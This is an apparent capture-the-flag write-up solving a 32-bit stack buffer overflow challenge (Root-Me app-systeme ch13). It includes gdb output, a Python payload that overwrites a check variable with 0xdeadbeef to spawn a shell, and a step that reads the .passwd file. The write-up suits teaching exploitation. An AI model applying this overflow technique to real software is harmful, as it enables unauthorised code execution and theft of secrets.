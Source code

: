 Right after these operations take place, the `fgets` function is called.  These three values we've just placed on the stack as above are the arguments to the function `fgets` as in the C code.  This is in line with 32 bit calling conventions, arguments are placed upon the stack.  If you try some 64-bit exploitation examples, they'll actually be popped into registers (up to a point), so remember that if you find yourself unwittingly in 64-bit land.
```c
fgets(buf,45,stdin);
```

So `0x804a020` is the location of the stdin handle, `0x2d` is just 45 and `esp+0x14` will be where our buffer is located on the stack.

We've established earlier that our check variable is located at `esp+60` and since our buffer is at `esp+20`, if we place 44 bytes into fgets, the first 40 will fill the buffer, whilst the next 4 will overwrite the check variable.  Lets test this out quickly.  We'll use the following code to generate a file:
```bash
python -c 'print "A"*44'`> /tmp/overflow
```

We then pipe this through gdb into our program and we get:
```gdb
gdb$ run < /tmp/overflow
Starting program: /challenge/app-systeme/ch13/ch13 < /tmp/overflow

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[check] 0x41414141

You are on the right way!
[Inferior 1 (process 27133) exited normally]
--------------------------------------------------------------------------[regs]
  EAX:Error while running hook_stop:
No registers.
gdb$
```

So, we overwrote the check variable with our buffer, as 0x41 is the hex code for ascii 'A' so `0x41414141` is equivalent to `AAAA`.   To get our shell spawned, we need to overwrite our variable with `0xdeadbeef`, so we just write a file containing `A*40` followed by the bytes for `0xdeadbeef`.  Code of the following form achieves this:

```python
import struct;  print "A"*40 + struct.pack("<L", 0xdeadbeef)
```
We run this and pipe it into our binary, and while we get a shell it isn't returned to us as interactive.
```bash
app-systeme-ch13@challenge02:~$ python -c 'import struct;  print "A"*40 + struct.pack("<L", 0xdeadbeef);' | ./ch13

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ 
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
Shell closed! Bye.
```
We'll just pipe in another command to cat the .passwd file and we're returned with our password which is read by the dash command.
